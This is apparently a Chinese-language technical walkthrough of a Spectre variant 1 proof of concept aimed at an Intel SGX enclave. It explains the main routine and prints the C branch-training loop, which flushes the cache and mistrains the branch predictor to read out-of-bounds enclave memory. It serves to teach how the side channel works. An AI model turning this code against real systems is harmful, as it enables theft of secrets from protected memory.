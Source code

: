 <center><font size="2" color="#595959">代码 3 spectre_main</font></center>

该函数执行了以下操作：

* a) 使用ecall_get_offset函数存储在malicious_x变量中，该变量是恶意代码欲攻击的地址和Enclave中arr1的偏移。
  
* b) 判断命令行传参，若有额外参数则使用传入的偏移作为malicious_x攻击偏移，而不使用默认的攻击地址。
  
* c) 写入arry2，防止页表将arry2复制到值为零的页表中。这个页表查询速度比一般的页表快，会导致之后的时间测量失效。
  
* d) 执行主循环，该主循环每次都使malicious_x+1，遍历整个欲查询的内存，将malicious_x作为参数传入攻击函数readMemoryByte中，同时也将value[2]和score[2]两个数组清零后作为参数传入该函数，分别用于存放评估时间测量最优秀的两个猜测结果和其获得的评估分数。
  
* e) 打印出对对应偏移的字节猜测，同时给出评估结果为第二的结果备选。若只有一个结果或score[0]和score[1]差距过大，则返回success，否则返回unclear。
  
### readMemoryByte

readMemoryByte由一个1000次的循环组成，由这1000次循环的结果猜测最有可能的结果。在该循环中，代码由三部分组成，作用是训练分支预测、cache结果分析猜测、高分结果选取。

``` C
for (tries = 999; tries > 0; tries--) {
    /* Flush array2[256*(0..255)] from cache */
    for (i = 0; i < 256; i++)
    _mm_clflush(&array2[i * 512]); /* intrinsic for clflush instruction */

    /* 30 loops: 5 training runs (x=training_x) per attack run (x=malicious_x) */
    training_x = tries % array1_size;
    for (j = 29; j >= 0; j--) {
        _mm_clflush(&array1_size);
        volatile int z;
        for (z = 0; z < 100; z++) {} /* Delay (can also mfence) */
        
        /* Bit twiddling to set x=training_x if j%6!=0 or malicious_x if j%6==0 */
        /* Avoid jumps in case those tip off the branch predictor */
        x = ((j % 6) - 1) & ~0xFFFF; /* Set x=FFF.FF0000 if j%6==0, else x=0 */
        x = (x | (x >> 16)); /* Set x=-1 if j&6=0, else x=0 */
        x = training_x ^ (x & (malicious_x ^ training_x));
        
        /* Call the victim! */ 
                sgx_status_t ret = SGX_ERROR_UNEXPECTED;
        ret = ecall_victim_function(global_eid, x, array2, &array1_size);
            if (ret != SGX_SUCCESS)
                abort();
    }
```
<center><font size="2" color="#595959">代码 4分支训练代码</font></center>

如上的分支训练代码中，执行了以下操作：

* a) 进入一个30次的循环，设置一个循环次数计数器。
  
* b) 使用_mm_clflush(&array2[i * 512])函数刷新缓存，防止上一次的查询训练影响本次预测。
  
* c) 使用位移的方式设置偏移。在这个循环中，每6次执行受害函数，最后一次将使用malicious_x的值设为x进行查询，而前5次将一个正常值设为x进行查询。由于不希望这个循环的结果干扰分支预测，次操作完全由位操作执行，即不执行判断。
  
* d) 调用在Enclave中的受害函数，传入设置好的x。假设在没有分支预测时，ecall_victim_function将判断x是否越界arry1，若越界，则将不给予这次内存偏移访问。然而，在攻击程序的训练下，由于 CPU 得知大部分情况下都可以通过分支判断，CPU被训练为先读取偏移处的内存值（ arry2[arry1[x]] ），同时进行分支判断。与此同时，cache机制开始工作：该机制发现有一处内存（即 arry2[arry1[x]] ）正在被反复读，便将该值加入 cache 中，以期加快了其读取的速度。
  